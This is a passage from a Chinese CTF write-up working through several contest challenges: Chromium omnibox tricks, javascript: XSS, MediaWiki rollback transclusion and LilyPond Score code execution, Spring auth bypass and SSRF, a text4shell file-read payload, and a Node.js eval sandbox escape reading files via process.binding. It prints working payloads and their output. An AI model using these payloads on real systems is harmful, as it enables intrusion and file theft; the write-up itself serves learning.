就能拼出 URL 了。第二关的 har 用 Chromium 的开发者工具导入，然后也是把 sheet 请求拿出来，写个程序肉眼 OCR：

```python
import json

with open("test.json") as f:
    data = json.load(f)

grid = [[" " for _ in range(11)] for _ in range(300)]

for key in data:
    loc = int(key)
    x = loc % 11
    y = loc // 11
    grid[y][x] = 'x'

for i in range(300):
    for j in range(11):
        print(grid[i][j], end='')
    print("")
```

做出来之后问了一下 xmcp，看起来我刚好选择了正确的请求来解析（页面有两个请求，对应两个不同的历史记录版本）

## 给钱不要！

很硬核的 XSS（？）题。我被 Chromium omnibox 折磨了很久。

### Flag 1：特别安全地 vivo50

网页的逻辑只有：

```javascript
function go() {
    location.href = document.getElementById('filename').value + '.jpg';
}
```

其中 `filename` 是我们可以控制的。我一开始看到的时候，想，要跳转到自己的网站显示自定义 title 的话那不是很简单吗，"https://example.com/example/#.jpg" 嘛。

然而，我们有一个坏消息和一个好消息：

- 坏消息：chrome://omnibox 会检查你的输入，flag1 需要类型为 query 才会通过；
- 好消息：脚本会帮我们把 HTTP(S) 的 scheme 去掉。

在多次尝试无果后，我去找了 Chromium 的源代码。<https://github.com/chromium/chromium/blob/main/components/omnibox/browser/autocomplete_input_unittest.cc> 提供了很多测试样例，而具体逻辑在 <https://github.com/chromium/chromium/blob/main/components/omnibox/browser/autocomplete_input.cc>。

可以注意到，`user@foo` 的结果是 UNKNOWN，因此 `vivo50@taoky.moe#` 的结果也是 UNKNOWN（而不是 URL，毕竟这玩意看起来真的挺像邮箱的，虽然它也可以解释成用 vivo50 用户的身份访问 taoky.moe 就是）

但是，flag1 需要 very_safe (query) 类型。读了测试样例没找到灵感，因此被迫把 autocomplete_input.cc 整个读一遍。

然后我看到了：

```cpp
// Unfortunately, since we called CanonicalizeHost() on the
// already-canonicalized host, all of these cases will have been changed
// to have four components (e.g. 13.2 -> 13.0.0.2), so we have to call
// CanonicalizeHost() again, this time on the original input, so that we
// can get the correct number of IP components.
```

试了一下，`13.2` 的类型真的是 query，但是这个看起来对 IP 要求有点苛刻呀，毕竟第三位是 0 的 IP 不好找。但是这提供了一个方向。说到这种 IP，我的第一反应是：

```console
> ping 114514
PING 114514 (0.1.191.82) 56(84) bytes of data.
```

这里，114514（咳！）是 0.1.191.82 的十进制表示，而且看起来是 query，那么把我的 VPS 的 IP（**以下只是以 114.5.1.4 为例子**，实际的 IP 当然不是这个）转换成十进制就行？（我用的工具是 <https://www.browserling.com/tools/ip-to-dec>）

```console
> ping 1912930564
PING 1912930564 (114.5.1.4) 56(84) bytes of data.
```

不幸的是，omnibox 似乎看出了这个阴谋，返回的类型是 unknown。读了一下 Wikipedia，看到了这句话：

> When fewer than four numbers are specified in the address in dotted notation, the last value is treated as an integer of as many bytes as are required to fill out the address to four octets. Thus, the address 127.65530 is equivalent to 127.0.255.250.

诶所以第三位不一定要是 0？我们试一下：

```python
> python
Python 3.10.8 (main, Nov  1 2022, 14:18:21) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 4+1*256+5*256*256
327940
>>> 
> ping 114.327940
PING 114.327940 (114.5.1.4) 56(84) bytes of data.
```

并且 omnibox 认为这是个 query，甚至加上 `:` 和 `#` 都没事。微调一下，我最后的 payload 为：

```
http://114.327940:19198#
```

在 VPS 的 19198 端口开个 http 服务返回指定的 HTML 即可。

（话说我特地去 DNS 里面加了个 vivo50.taoky.moe 不过最后看起来没法用的样子）

### Flag 2：安全地执行 JavaScript

这道题要求在网页上跑 JS，限制放宽到不是识别成 URL 就行。首先我可能得为我[去年写的东西](https://blog.taoky.moe/2021-11-21/geekgame-v1-wp.html#q%E5%B0%8F%E6%A0%91%E6%B4%9E%E7%9A%84%E4%B8%80%E5%A4%A7%E6%AD%A5)道歉，因为这道题就是用 javascript: 伪协议。

阅读源码，找到了关键的正则（<https://github.com/chromium/chromium/blob/main/components/omnibox/browser/autocomplete_input.cc#L308>）：

```cpp
// Treat javascript: scheme queries followed by things that are unlikely to
// be code as UNKNOWN, rather than script to execute (URL).
if (base::EqualsCaseInsensitiveASCII(parsed_scheme_utf8,
                                    url::kJavaScriptScheme) &&
   RE2::FullMatch(base::UTF16ToUTF8(text), "(?i)javascript:([^;=().\"]*)")) {
   return metrics::OmniboxInputType::UNKNOWN;
}
```

也就是说，我们的 js 不能有分号、等号、小括号、点和双引号。这个不难（相比于后面那道 nodejs 绕过的来说）：

- 点可以用中括号 + 字符串绕过，即 `document.title` 和 `document['title']` 是等价的。
- 等于号怎么绕过呢？我的做法是用模板字符串，即 `` `${'\x3d'}` `` 的结果为 `'='`。
- 但是最后这样生成出来的是个字符串。小括号用不了，但是我们可以用反引号来作为 eval 的参数，具体来讲，就是 `` eval['call']`${'你的 payload'}` ``

最后的 payload 为 `` javascript:eval['call']`${'document[\'title\']\x3ddocument[\'body\'][\'textContent\']'}` ``，于是从脚本输出的标题里就能看到 flag 了。

## 私有笔记

看起来是 2020 年存在的，MediaWiki 的漏洞。搜了一下，看到了一些有意义的内容：

- CVE-2020-29007 <https://seqred.pl/en/cve-2020-29007-remote-code-execution-in-mediawiki-score/>，似乎这个 MediaWiki 实例用了有问题的 Score。
- CVE-2021-44858, CVE-2021-45038, CVE-2021-44857 <https://www.mediawiki.org/wiki/2021-12_security_release/FAQ>，看起来还挺严重的，并且可以让未授权的用户读取到私有的 page。

### 知识，与你分享

去 phabricator 逛了逛，读了 <https://phabricator.wikimedia.org/rMW82b5dd2803ac6a026103df8b8421a573c7426239>

> SECURITY: Fix permissions check in action=rollback (CVE-2021-45038)
> 
> Because RollbackAction (as of 0a8403271109) overrided
> FormAction::show(), it was no longer checking that the user had the
> "rollback" userright. This restores that check, so people without the
> "rollback" right will not be able to even get to the rollback form.
> 
> Then escape the user-supplied "from" parameter so it can't be used to
> reveal the contents of other pages through transclusion, e.g.
> "{{:Secret}}". wfEscapeWikiText() is also good practice for > usernames in
> general, as they can contain markup like bullets or single quotes > that
> affect output.

似乎可以执行任意模板命令？于是 payload 就是：

```
https://prob07-<id>.geekgame.pku.edu.cn/index.php?title=%E9%A6%96%E9%A1%B5&action=rollback&from={{:Flag}}
```



获得了 flag1 以及登录的凭据。

### 来我家做客吧


*《孤独摇滚》动画第 7 集「到你的家里」*

接下来就应该是用 Score 的 RCE 漏洞了，照例读了一下 phabricator（<https://phabricator.wikimedia.org/T257062>），然后简单试了试：

```mediawiki
<score lang="lilypond">\new Staff <<{c^#
(if (file-exists? "/flag") "true" "false")
}>></score>
```

（payload 需要微调，因为好像没有 Image frame，但是不是大问题）



看起来不在 /flag？那 /flag2 呢？



好，那就一定是要读取 /flag2 文件。读了一下资料，感觉 RCE 并且将结果输出出来还是稍微有点难，于是思路转变到用 Scheme (Guile) 来读文件并且输出。

搜索一下可以知道，能用 `open-input-file` 开文件，然后读文件可以用 `read-line`，但是 [`read-line` 需要加载 `ice-9 rdelim` 模块](https://stackoverflow.com/questions/44144124/read-a-line-from-a-file)。于是代码大概就是：

```scheme
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
```

我也看了 lilypond 的文档，发现[可以用 `(begin` 来弄多行的代码](https://lilypond.org/doc/v2.21/Documentation/extending-big-page#lilypond-scheme-syntax)：

```scheme
(begin
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
)
```

于是 payload 就是：

```mediawiki
<score lang="lilypond">\new Staff <<{c^#(begin
(use-modules (ice-9 rdelim))
(object->string(read-line (open-input-file "/flag2")))
)
}>></score>
```



这个 C3 音高的四分音符 ~~太好听了，简直就是天籁。~~

## 企业级理解

这题感觉总体挺迷的，和 GeekGame 其他题目画风区别有点大（就是那种无法理解这玩意儿是要干啥的感觉，我不喜欢这样的题目）。

### 赋能管理后台

从来没写过 Java web 程序，搜了一下，读到了 <https://www.cnblogs.com/nice0e3/p/16798843.html#antmatchers-%E9%85%8D%E7%BD%AE%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87>。

所以看起来后面加个 `/` 就能绕过权限检查。然后在进入的 admin/ 页面里面发个请求，F12 里面 copy as cURL，`query` 后面加个 `/`，type 选 "PKU_GeekGame" 就是 flag1

### 盘活业务增长

我们也可以用同样的方式拿到源代码：

```java
import org.springframework.web.reactive.function.client.WebClient;

@RestController
public class AdminController {

    WebClient webClient = WebClient.builder().baseUrl("http://localhost:8079/").build();

    @RequestMapping("/admin/{index}")
    public String adminIndex(@PathVariable(name="index") String index, String auth, QueryBean queryBean) {
        if (index != null & index.contains("%")) {
            index = URLDecoder.decode(index, "UTF-8");
        }
        if (queryBean.getType() == null) {
            queryBean.setType("PKU");
        }
        if (!typeList.contains(queryBean.getType())) {
            typeList.add(queryBean.getType());
        }

        Mono<String> str = webClient.post()
            .uri(index)
            .header(HttpHeaders.AUTHORIZATION, auth)
            .body(BodyInserters.fromFormData("type", queryBean.getType()))
            .retrieve().bodyToMono(String.class);

        return queryBean.setValue(str.block());
    }
}
```

一开始不知道要干嘛（猜测是 SSRF，但是看 `webClient` 会处理 `baseUrl`，以为它没有问题），最后思路歪到了是不是要利用 `queryBean` 执行 SPEL。后面放出了一些补充说明，才知道 flag2 一定是 SSRF。

那么 `webClient` 肯定有鬼。[看了一下源代码](https://github.com/spring-projects/spring-framework/blob/2a2c679f668e72d95dae12f189faab78b741037f/spring-webflux/src/main/java/org/springframework/web/reactive/function/client/WebClient.java#L170)：

```java
interface Builder {

   /**
      * Configure a base URL for requests. Effectively a shortcut for:
      * <p>
      * <pre class="code">
      * String baseUrl = "https://abc.go.com/v1";
      * DefaultUriBuilderFactory factory = new DefaultUriBuilderFactory(baseUrl);
      * WebClient client = WebClient.builder().uriBuilderFactory(factory).build();
      * </pre>
      * <p>The {@code DefaultUriBuilderFactory} is used to prepare the URL
      * for every request with the given base URL, unless the URL request
      * for a given URL is absolute in which case the base URL is ignored.
      * <p><strong>Note:</strong> this method is mutually exclusive with
      * {@link #uriBuilderFactory(UriBuilderFactory)}. If both are used, the
      * baseUrl value provided here will be ignored.
      * @see DefaultUriBuilderFactory#DefaultUriBuilderFactory(String)
      * @see #uriBuilderFactory(UriBuilderFactory)
      */
   Builder baseUrl(String baseUrl);

   // ...
}
```

什么？"unless the URL request for a given URL is absolute"？怎么能这么设计 API？

于是可以来试试 `https://prob08-<id>.geekgame.pku.edu.cn/admin/localhost%3A8080/`，发现有两个可用的路由：

```html
<input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="Endpoints:
/bonus
/source_bak
">
```

接下来就得往 `index` 里面塞斜杠了，不幸的事情是，Spring 不吃这一套：`%2F` (`/`) 和 `%5C` (`\`) 会让它返回 400。想了一下，试了试把 `%2F` 再转义一次到 `%252F`……然后就好了。访问 bonus，获得 flag2。

### 打通整个系统

访问 bonus 的 source_bak 可以拿到源代码：

```java
import org.apache.commons.text.StringSubstitutor;

@RestController
public class BonusController {

        @RequestMapping("/bonus")
        public QueryBean bonus(QueryBean queryBean) {
            if(queryBean.getType().equals("CommonsText")) {
                StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
                interpolator.setEnableSubstitutionInVariables(true);

                String value = replaceUnSafeWord(queryBean.getValue());
                String resultValue = interpolator.replace(value);
                queryBean.setValue(resultValue);

            } else {
                // flag3藏在/root/flag3.txt等待你发现            
            }

            return queryBean;
        }

        public static String replaceUnSafeWord(String txt) {
            String resultTxt = txt;

            ArrayList<String> unsafeList = new ArrayList<String>(Arrays.asList("java", "js", "script", "exec", "start", "url", "dns", "groovy", "bsh", "eval", "ognl"));
            Iterator<String> iterator = unsafeList.iterator();
            String word;
            String replaceString;
            while (iterator.hasNext()) {
                word = iterator.next();
                replaceString = "";
                resultTxt = resultTxt.replaceAll("(?i)" + word, replaceString);
            }

            return resultTxt;
        }

}
```

怎么替换个字符串还要这么企业级。简单搜了一下，果不其然，这就是 text4shell 嘛！我们当然可以 RCE 然后绕过下面的过滤（我的猜测是让 replaceAll 来拼出 payload），但是我们只是要文件内容，何必如此麻烦？

Payload 为 `${file:UTF-8:/root/flag3.txt}`，于是过滤形同虚设。（对应 curl 命令为 `--data-raw 'type=CommonsText&value=%E2%80%8B%24%7Bfile%3AUTF%2D8%3A%2Froot%2Fflag3%2Etxt%7D'`）

## 这也能卷

### Flag 1：前端的 flag

这个网站表面上需要开通大会员才能使用 nodejs/browser 环境执行命令。于是让我们先看看怎么开通大会员的，进入 Premium 页面，然后 F12，然后——我浏览器卡住了。

重新看了一下 premium.js，里面似乎有 `debugger` 指令，而且有一些魔法操作。我真的尝试去逆向了一部分的内容。尽管有 debugger 指令，借助 Chromium 的开发者工具，还是恢复了一小部分的内容，然后做着做着发现，诶，有个叫 `flag0` 的变量？

```javascript
const flag0=_0x340c07(0x65d,'aIlf',0x554,0x7bc,0x7c0)+_0x340c07(0x522,'mxb3',0x41a,0x61d,0x5ed)+_0x476726('Zml(',0x605,0x57c,0x6a1,0x5a5)+_0x476726('UwsG',0x5d6,0x5c1,0x500,0x601)+_0x5e5705('mmNu',0x1d0,0x354,0x339,0x1d1)+_0x476726('][gJ',0x3b3,0x4c7,0x43a,0x401)
```

于是先开开发者工具，然后直接打开 premium.html，然后在 console 里面输入这一坨东西即可：



### Flag 3：Node.js 里面的 flag

我是先做出这个（flag3）再做出 flag2 的。

读给的代码可以发现我们需要绕过正则表达式 `^([a-z0-9+\-*\/%(), ]|([0-9]+[.])+[0-9]+)+$`。（我特地去看了 fastify 有没有 CVE，遗憾的是，没有）

我被卡住了很长很长时间。这里要求不能有大写字母、中括号大括号、各种引号，`.` 前后都必须是数字，看起来只能搞出 `func1(1),func2(2),func3(3)` 这种 payload，而且也不知道 flag 在哪里。也看了看 `process`，除了知道 flag 不在环境变量里面以外没啥用。

之后去做别的题了。回来看的时候，想想，要不把 nodejs 所有函数过一遍？Nodejs REPL 的 Tab 补全还是很好用的。然后我发现了一个有趣的函数：`unescape()`，可以把数字变成字符串。

```nodejs
> unescape(2022)
'2022'
```

所以我当时想，能不能这么搞：

```js
eval(atob(unescape(1234567890)))
```

但是查了一下 base64 的字母表，打消了这个念头，因为数字的六位编码开头都是 1，这样会导致输出第一位肯定是一个不在 ascii 表里的字符，我不认为这样能成功运行。

之后又没有进展。在赛博空间随机游走的时候找到了 MDN 的 JavaScript References，过了一遍，读到 Misc/Lexical grammar 这一节的时候，[看到了一直想要的那个东西](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Lexical_grammar#regular_expression_literals)：Regular expression literals，格式为 `/ab+c/`。

试一下！

```nodejs
> unescape(/can i construct arbitary string now/)
'/can i construct arbitary string now/'
```

好耶！虽然开头和结尾的斜杠有点烦，但是因为我们的目标是把这坨东西扔给 `eval()` 来执行，所以并非没有办法绕过，注意到我们可以写 `/* this is a comment */` 类型的注释，所以可以这样子：

```nodejs
> unescape(/%2A%2A%2F console%2Elog %2F%2A/)+unescape(/%2A/)
'/**/ console.log /*//*/'
> eval(unescape(/%2A%2A%2F console%2Elog %2F%2A/)+unescape(/%2A/))
[Function: log]
```

顺便写个程序帮我们构造 payload：

```python
import sys
import urllib.parse
import string

payload = sys.argv[1]
def encode_all(s):
    return "".join(["%{0:0>2}".format(format(ord(char), "x")) if char not in string.ascii_lowercase + "1234567890" else char for char in s])

payload = encode_all(payload)

print(f"eval(unescape(/%2a%2a%2f {payload} %2f%2a/)+unescape(/%2a/))")
```

好，现在我们可以执行任意 JS 了，接下来就让我们读一下文件吧！

```nodejs
> // 本地环境
> eval(unescape(/%2a%2a%2f require%28%22child%5fprocess%22%29%2eexec%53ync%28%22ls%22%29 %2f%2a/)+unescape(/%2a/))
<Buffer 61 73 73 65 74 73 0a 52 45 41 44 4d 45 2e 6d 64 0a>
```

啊先不管这个 Buffer 是啥，反正看起来是行的……吧？然后扔到远程看看：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIHJlcXVpcmUlMjglMjJjaGlsZCU1ZnByb2Nlc3MlMjIlMjklMmVleGVjJTUzeW5jJTI4JTIybHMlMjIlMjkgJTJmJTJhLykrdW5lc2NhcGUoLyUyYS8pKQ==\n(node:196) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ require(\"child_process\").execSync(\"ls\") /*//*/\n     ^\n\nReferenceError: require is not defined in ES module scope, you can use import instead\nThis file is being treated as an ES module because it has a '.js' file extension and '/app/backend/package.json' contains \"type\": \"module\". To treat it as a CommonJS script, rename it to use the '.cjs' file extension.\n    at eval (eval at <anonymous> (eval at <anonymous> (file:///app/backend/runner.js:9:17)), <anonymous>:1:6)\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:1)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```

emmmmmm 不能用 `require` 啊。`import` 也试了一下，不行。网络上有些文章说可以用 `process.mainModule` 来搞，但是在最新版 Node 里面看起来也不行了。不过还好我们还有 `process`，搜了一下，可以用 `process.binding()` 来调用裸的模块函数。

读目录？（payload 来自 <https://tipi-hack.github.io/2019/04/14/breizh-jail-calc2.html>）

```nodejs
> // 本地环境
> process.binding('fs').readdir("/", {}, "", "", function (err, data) {data})
[
  'bin',  'boot',  'dev',
  'efi',  'etc',   'home',
  'lib',  'lib64', 'mnt',
  'nix',  'opt',   'proc',
  'root', 'run',   'sbin',
  'srv',  'sys',   'tmp',
  'usr',  'var'
]
```

远程也可以：

```json
{"result":[".dockerenv","app","bin","boot","dev","etc","flag","home","lib","lib64","media","mnt","opt","proc","root","run","sbin","sock","srv","sys","tmp","usr","var"]}
```

那 flag 一定在 `/flag` 了。参考 <https://jwlss.pw/mathjs/> 写一下读文件的 payload……

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); buffer
node[1745066]: ../src/node_file.cc:1864:void node::fs::Open(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) == (5)' failed.
 1: 0x7fcfa044d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7fcfa044d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7fcfa046638d  [/usr/bin/../lib/libnode.so.111]
 4: 0x7fcfa082ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7fcfa0830b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7fcfa06d03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```

emmmmmmmm 草。我本地也是最新的 Node.js 所以和远程应该现象是一样的。不过我们可以看到，它明确指出了 `fs::Open()` 需要 5 个参数，所以再来试试。我也不知道缺那两个参数是啥，先填个 0 吧：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096); buffer
node[1745716]: ../src/node_file.cc:2170:void node::fs::Read(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) >= (5)' failed.
 1: 0x7f31a704d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7f31a704d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7f31a7065596  [/usr/bin/../lib/libnode.so.111]
 4: 0x7f31a742ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7f31a7430b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7f31a72d03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```

`fs::Read()` 也要五个参数：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0); buffer
node[1745894]: ../src/node_file.cc:2204:void node::fs::Read(const v8::FunctionCallbackInfo<v8::Value>&): Assertion `(argc) == (7)' failed.
 1: 0x7fc38dc4d02d node::Abort() [/usr/bin/../lib/libnode.so.111]
 2: 0x7fc38dc4d376 node::Assert(node::AssertionInfo const&) [/usr/bin/../lib/libnode.so.111]
 3: 0x7fc38dc65cad  [/usr/bin/../lib/libnode.so.111]
 4: 0x7fc38e02ff37  [/usr/bin/../lib/libnode.so.111]
 5: 0x7fc38e030b66 v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) [/usr/bin/../lib/libnode.so.111]
 6: 0x7fc38ded03f9  [/usr/bin/../lib/libnode.so.111]
fish: Job 1, 'node' terminated by signal SIGABRT (Abort)
```

哦，改成要七个参数了：

```nodejs
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer
<Buffer 72 6f 6f 74 3a 78 3a 30 3a 30 3a 3a 2f 72 6f 6f 74 3a 2f 62 69 6e 2f 62 61 73 68 0a 62 69 6e 3a 78 3a 31 3a 31 3a 3a 2f 3a 2f 75 73 72 2f 62 69 6e 2f ... 8142 more bytes>
```

看起来好了。扔远程看看：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIGJ1ZmZlciUyMCUzZCUyMCU0MnVmZmVyJTJlYWxsb2MlNTVuc2FmZSUyODgxOTIlMjklM2IlMjBwcm9jZXNzJTJlYmluZGluZyUyOCUyN2ZzJTI3JTI5JTJlcmVhZCUyOHByb2Nlc3MlMmViaW5kaW5nJTI4JTI3ZnMlMjclMjklMmVvcGVuJTI4JTI3JTJmZXRjJTJmcGFzc3dkJTI3JTJjJTIwMCUyYyUyMDA2MDAlMmMlMjAwJTJjJTIwMCUyOSUyYyUyMGJ1ZmZlciUyYyUyMDAlMmMlMjA0MDk2JTJjJTIwMCUyYyUyMDAlMmMlMjAwJTI5JTNiJTIwYnVmZmVyICUyZiUyYS8pK3VuZXNjYXBlKC8lMmEvKSk=\n(node:220) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer /*//*/\n                                                                                                                ^^^^\n\nSyntaxError: Octal literals are not allowed in strict mode.\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:292)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```

行行行，要求真多，0600 改成 384 总好了吧：

```json
{"statusCode":500,"code":"1","error":"Internal Server Error","message":"Command failed: /usr/local/bin/node --experimental-policy=policy.json --policy-integrity=sha256-1NvUvTeQqHoo+XJv7zUAobD/VEaIGQ8CB3471GP2isY= runner.js -e=ZXZhbCh1bmVzY2FwZSgvJTJhJTJhJTJmIGJ1ZmZlciUyMCUzZCUyMCU0MnVmZmVyJTJlYWxsb2MlNTVuc2FmZSUyODgxOTIlMjklM2IlMjBwcm9jZXNzJTJlYmluZGluZyUyOCUyN2ZzJTI3JTI5JTJlcmVhZCUyOHByb2Nlc3MlMmViaW5kaW5nJTI4JTI3ZnMlMjclMjklMmVvcGVuJTI4JTI3JTJmZXRjJTJmcGFzc3dkJTI3JTJjJTIwMCUyYyUyMDM4NCUyYyUyMDAlMmMlMjAwJTI5JTJjJTIwYnVmZmVyJTJjJTIwMCUyYyUyMDQwOTYlMmMlMjAwJTJjJTIwMCUyYyUyMDAlMjklM2IlMjBidWZmZXIgJTJmJTJhLykrdW5lc2NhcGUoLyUyYS8pKQ==\n(node:232) ExperimentalWarning: Policies are experimental.\n(Use `node --trace-warnings ...` to show where the warning was created)\nundefined:1\n/**/ buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 384, 0, 0), buffer, 0, 4096, 0, 0, 0); buffer /*//*/\n            ^\n\nReferenceError: buffer is not defined\n    at eval (eval at <anonymous> (eval at <anonymous> (file:///app/backend/runner.js:9:17)), <anonymous>:1:13)\n    at eval (eval at <anonymous> (file:///app/backend/runner.js:9:17), <anonymous>:1:1)\n    at file:///app/backend/runner.js:9:17\n    at ModuleJob.run (node:internal/modules/esm/module_job:193:25)\n    at async Promise.all (index 0)\n    at async ESMLoader.import (node:internal/modules/esm/loader:518:24)\n    at async loadESM (node:internal/process/esm_loader:102:5)\n    at async handleMainPromise (node:internal/modules/run_main:66:12)\n\nNode.js v19.0.1\n"}
```

哦，要 `var buffer`。改了之后就能吐出 flag 的 bytes 了。

### Flag 2：Chrome 里的 flag

首先，不可能是最新稳定版 Chrome 的 CVE，那么肯定 flag 在页面、标题、cookie 这几个地方上。我用的是编码之后的 `document.documentElement.innerHTML` 读的。

## TTOWRSS

我还记得那个白天，从凌晨熬到天亮，当我发现这个 sigtrap 的 handler 居然干了这样的事情的时候，感觉自己整个脑子都「轰」得一下。

首先……拖 IDA，然后发现整个程序怪怪的，`main()` 似乎长得不太正常，找到了读取输入的逻辑，但是它的汇编居然长成这样：

```asm
loc_1176:                               ; CODE XREF: .text:0000000000001145↑j
.text:0000000000001176                 lea     rdi, aGoodJob   ; "Good job!"
.text:000000000000117D                 jz      short loc_1154
.text:000000000000117F                 test    al, al
.text:0000000000001181                 call    sub_13C5
.text:0000000000001186                 mov     rdi, rbp
.text:0000000000001189                 call    ___isoc99_scanf
.text:000000000000118E                 mov     rsi, rbp
